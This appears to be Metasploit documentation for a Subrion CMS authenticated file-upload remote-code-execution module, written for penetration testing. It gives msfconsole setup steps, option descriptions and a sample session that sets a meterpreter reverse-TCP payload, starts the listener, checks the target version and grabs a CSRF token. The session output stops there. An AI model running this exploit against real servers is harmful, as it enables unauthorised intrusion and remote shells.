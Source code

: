 Once the configuration is done, navigate to `http://subrion-vuln.com/panel/` and login as an Administrator to confirm
successful setup.

## Verification Steps

1. Install and set up Subrion CMS v4.2.1 as described above.
2. Verify that the Admin Panel login page can be accessed at `http://subrion-vuln.com/panel/`.
3. Start `msfconsole`
4. Do: `use exploit/linux/http/subrion_cms_file_upload_rce`
5. Do: `set RHOSTS [SUBRION_SERVER_IP]`
6. Do: `set RPORT [SUBRION_SERVER_PORT]`
7. Do: `set USERNAME [username]`
8. Do: `set PASSWORD [password]`
9. Do: `set LHOST eth0`
10. Do: `exploit`

## Options

### RPORT (Required)

This is the default HTTP port 80 for the Subrion CMS website.

### TARGETURI (Required)

This is the base path of the Subrion CMS's website. Can be changed in case the files are not installed as a VHost,
for example, in `/var/www/html/subrion/*` and not in `/var/www/subrion/*`

### USERNAME (Required)

This is the username for the Subrion CMS admin panel page, required for exploitation.

### PASSWORD (Required)

This is the password for the Subrion CMS admin panel page, also required for exploitation.

## Scenarios

### Subrion CMS v4.1.0 with Docker on Debian 10

* Using PHP payload - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.138
RHOSTS => 192.168.245.138
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.138:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 9cedb67d955cadc5fac7dc7ddf32e425
```